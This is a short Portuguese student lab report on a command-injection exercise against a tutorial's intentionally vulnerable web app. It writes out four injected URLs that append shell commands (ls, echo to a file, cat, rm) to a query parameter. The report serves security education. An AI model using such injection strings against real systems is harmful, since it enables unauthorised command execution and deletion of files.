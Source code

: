 # Command Injection
## Relatório da Prática

Para realizar a prática, segui as questões propostas no [tutorial](https://github.com/jordaos/Command-Injection-Tutorial).

Não senti dificuldades para realizar a prática. O tutorial estava muito explicativo.

Na prática foi utilizada a [aplicação online](http://commandinjection.herokuapp.com/) disponibilizada no tutorial para a realização dos ataques.

1. Listar arquivos do diretório.

    Para listar os arquivos do diretório onde está a página inicial dos site foi utilizado o comando `ls`. O comando completo ficou assim: 
    > `http://commandinjection.herokuapp.com/?dir=;ls`
    
    ![1](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/1.PNG)

2. Criar arquivo
    Foi criado um arquivo dentro da pasta '/folder' através do seguinte comando:
    > `http://commandinjection.herokuapp.com/?dir=folder; echo "Prática - Samuel Alves" > SamuelAlves.txt`

    ![2](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/2.PNG)

3. Listar conteúdo do arquivo
    Para listar o conteúdo do documento criado, foi utilizado o comando:
    > `http://commandinjection.herokuapp.com/?dir=files; cat SamuelAlves.txt`

    ![3](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/3.PNG)

4. Apagar arquivo
    Para apagar o arquivo criado, foi utilizado o comando:
    > `http://commandinjection.herokuapp.com/?dir=files; rm SamuelAlves.txt`
    ![4](https://github.com/SamuelIGT/information-security/blob/master/Praticas/Command%20Injection/screenshots/4.PNG)
